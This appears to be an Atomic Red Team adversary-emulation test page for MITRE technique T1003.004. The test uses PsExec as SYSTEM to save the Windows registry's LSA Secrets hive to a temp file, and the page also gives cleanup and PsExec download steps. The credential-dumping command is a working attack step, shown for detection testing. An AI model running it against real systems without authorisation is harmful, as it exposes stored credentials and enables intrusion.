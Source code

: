 ```yaml
---
tags: [T1003_004, atomic_test]
filename: "[[T1003.004|T1003.004 - OS Credential Dumping: LSA Secrets]]"
---
```

# T1003.004 - OS Credential Dumping: LSA Secrets

## Atomic Test #1 - Dumping LSA Secrets
Dump secrets key from Windows registry
When successful, the dumped file will be written to $env:Temp\secrets.
Attackers may use the secrets key to assist with extracting passwords and enumerating other sensitive system information.
https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/#:~:text=LSA%20Secrets%20is%20a%20registry,host%2C%20local%20security%20policy%20etc.

**Supported Platforms:** Windows


**auto_generated_guid:** 55295ab0-a703-433b-9ca4-ae13807de12f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| psexec_exe | Path to PsExec executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1003.004&#92;bin&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{psexec_exe}" -accepteula -s reg save HKLM\security\policy\secrets %temp%\secrets /y
```

#### Cleanup Commands:
```cmd
del %temp%\secrets >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: PsExec from Sysinternals must exist on disk at specified location (#{psexec_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PSTools.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PSTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PSTools" -Force
New-Item -ItemType Directory (Split-Path "#{psexec_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PSTools\PsExec.exe" "#{psexec_exe}" -Force
```




<br/>
